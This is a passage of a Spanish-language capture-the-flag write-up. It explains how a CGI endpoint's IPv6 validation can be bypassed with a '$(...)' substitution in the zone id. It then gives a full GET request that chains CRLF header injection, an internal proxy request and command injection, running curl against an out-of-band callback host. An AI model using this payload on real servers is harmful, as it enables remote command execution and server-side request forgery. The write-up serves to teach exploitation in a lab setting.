 ```python
    print(f'Location: ../?error=Hey {name}, watch it!')

print('Content-Type: text/html')
print()
```

Se observa que se intenta validar target con ip_address() de la librería ipaddress de Python, para asegurarse de que sea una IP válida, podemos inyectar comandos usando $, ya que Apache está ejecutando el CGI, entonces la inyección se da antes siquiera de que se llegue al código Python. Solo basta con proporcionar una IP valida, ya sea ipv4 o ipv6.

Usaremos en este caso una ipv6 y el caracter especial $ para ejecutar comandos:

```bash
::1%$(command)
```
Nuestro payload completo se traduce a:

```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30aqsmhrfmvylkqdnuqyqqpqvhktneu42h2.oast.fun?testt)%260name=%0D%0A%0D%0A
```

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-15.png)

El cual hace una simple petición a mi webhook para validar si funciona.

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-16.png)
